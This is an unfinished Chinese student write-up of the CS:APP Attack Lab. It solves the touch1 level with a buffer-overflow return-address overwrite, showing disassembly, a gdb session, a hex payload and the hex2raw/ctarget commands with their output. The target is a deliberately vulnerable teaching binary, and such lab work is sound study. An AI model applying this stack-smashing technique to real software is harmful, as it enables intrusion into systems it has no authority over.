 # L3-Attack-Note

提示: 本笔记显式地包括答案, 如果你想自己独立完成该实验, 建议只阅读 **准备工作 ** 与 **题目说明** 部分.

目前未完成.

## 目录

1. 准备工作
2. 题目说明
3. Hex2raw 工具讲解
4. 题解: CTARGET 
   1. touch1
   2. touch 2
   3. touch 3
5. 题解: RTARGET 
   1. touch 2
   2. touch 3
6. 后记



## 准备工作

记得阅读 attack.pdf

其他暂略

## 题目说明

根据教材第三章... 我们需要对代码...

记得加 `-q` 

cookie 的含义

### Hex2raw 工具讲解



## 题解: CTARGET 

我们首先明确一下我们要干什么. 假设你已经阅读过教材 3.10.3 小结, 你应该知道我们的目标是利用缓冲区溢出来使得函数返回时返回至另外的. 出乎意料的, 由我们(攻击者)提供的函数地址上. 基本的原理不在这里多说.

下面的叙述均基于 CTARGET  为背景.

### touch1

**test函数**

这个函数是我们将攻击的代码, 在此小节以主函数称呼之. 我们通过 `getbuf` 函数输入一串字符, 理论上正常返回时会返回整型 `1` 储存在 `val`中 并打印, 退出. 

```c
void test(){
	int val;
	val = getbuf();
	printf("No exploit. Getbuf returned 0x%x\n", val);
}
```



下面来观察汇编代码

```
//test() 反汇编
Dump of assembler code for function test:
    0x0000000000401968 <+0>:	sub    $0x8,%rsp
    0x000000000040196c <+4>:	mov    $0x0,%eax
    0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
    0x0000000000401976 <+14>:	mov    %eax,%edx
    0x0000000000401978 <+16>:	mov    $0x403188,%esi
    0x000000000040197d <+21>:	mov    $0x1,%edi
    0x0000000000401982 <+26>:	mov    $0x0,%eax
    0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
    0x000000000040198c <+36>:	add    $0x8,%rsp
    0x0000000000401990 <+40>:	retq 
```



我们注意<+9> 这一行, `callq` 函数的操作对象是一个地址, 目前这个地址是指向到 `getbuf`函数

在`getbuf`结束后, 应当返回到 0x401976 地址, 称为原地址. 

我们的目标就是替换掉堆栈中的原地址, 将其修改为我们期望转到的 `touch1`函数的地址, 称为目标地址.

于是任务变成了:

1. 找到堆栈中原地址的储存位置
2. 确定目标地址的地址
3. 将原地址替换为目标地址

**getbuf 函数**

我们可以看到它的C代码如下

```c
unsigned getbuf(){
	char buf[BUFFER_SIZE];
	GETs(buf);
	return 1;
}
```

首先的问题是, 我们需要知道这个缓冲区设置有多长? 也就是`BUFF_SIZE` 的大小. 只有知道了这个的基础上, 才能确定堆栈中原地址的位置. 我们照例查看其汇编代码:

```
//getbuf()
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
```

我们注意到在代码开始处, 堆栈扩充了 0x28 个大小. 

这说明BUFF_SIZE可能是0x28

> 注: 这里使用可能二字, 因为我非常疑心BUFF_SIZE与栈帧的大小是否相同, 但是栈上移0x28位后是返回地址应该是没有异议的.

于是我们在 +12 设置一个断点, 并使用gdb的查看指令

```
//事先输入的字符串为 "abcdef"
(gdb) print (char*) ($rsp)
$1 = 0x5561dc78 "abcdef"
//可以看出, 堆栈的起始位置即储存了输入的字符串

(gdb) x/a ($rsp+0x28) 
0x5561dca0:	0x401976 <test+14>
//可以看出, 当我们试图查看 ($rsp+0x28) 储存的地址时, 发现正好时test+14的地址, 也就是我们的原地址. 
```

那么我们现在至于要使用目标地址替换原地址即可.

**touch1 函数**

```
//touch1 反汇编
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
   0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
```

显然目标地址就是 `0x4017c0`



因此, 我们应当输入的数字如下:

> 00 00 00 00 00 00 00 00 00 00 
>
> 00 00 00 00 00 00 00 00 00 00 
>
> 00 00 00 00 00 00 00 00 00 00 
>
> 00 00 00 00 00 00 00 00 00 00 
>
> c0 17 40 00 00 00 00 00 00 00 

上面的内容不能直接在`ctarget`运行时输入, 而要使用 `Hex2raw`工具处理. 具体请参看上面的  `Hex2raw` 讲解部分.

我们将上述材料存储在文件`in.txt`内, 并使用 `Hex2raw`工具将其转化为 二进制 文件并输入. 

```
//输入
./hex2raw  <in.txt> out
./ctarget -i out -q

//输出
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
```

说明我们已经过了第一关